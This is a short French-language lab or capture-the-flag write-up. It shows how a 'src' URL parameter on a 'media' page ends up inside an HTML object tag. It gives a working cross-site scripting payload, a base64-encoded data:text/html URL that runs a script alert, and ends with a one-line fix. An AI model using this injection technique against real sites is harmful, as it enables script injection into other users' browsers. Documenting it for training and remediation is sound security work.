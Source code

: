 # Explications
Dans la page "Index", il y une image cliquable avec le logo de la nsa qui nous envoie sur la page "media". On peut observer dans l'url un élément GET "**src=nsa**".
Si l'on change nsa par test, comme ceci :
<pre><code>http://IP/index.php?page=media&src=test</code></pre>
On observe que ce n'est plus la même image qui est chargée dans la page, de plus on observe dans le code de la paghe 

```html
<tr style="background-color:transparent;border:none;">
	<td style="vertical-align:middle;">
		<object data="test"></object>
	</td>
</tr>
```
L'objet chargé dépend donc du GET de l'URL. On peut donc injecter du code grâce a cela dans le site  de la maniere suivante.

<pre><code>http://IP/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiaGFja2VkIik8L3NjcmlwdD4=</code></pre>
```html
data:text/html;base64 => Sert a indiquer le type du text qui suis.
<script>alert("hacked")</script> en base 64 : PHNjcmlwdD5hbGVydCgiaGFja2VkIik8L3NjcmlwdD4=
```

# Comment l'éviter ?
Il suffit de mettre la source de l'image directement dans le code plutot que de l'envoyé en parametre GET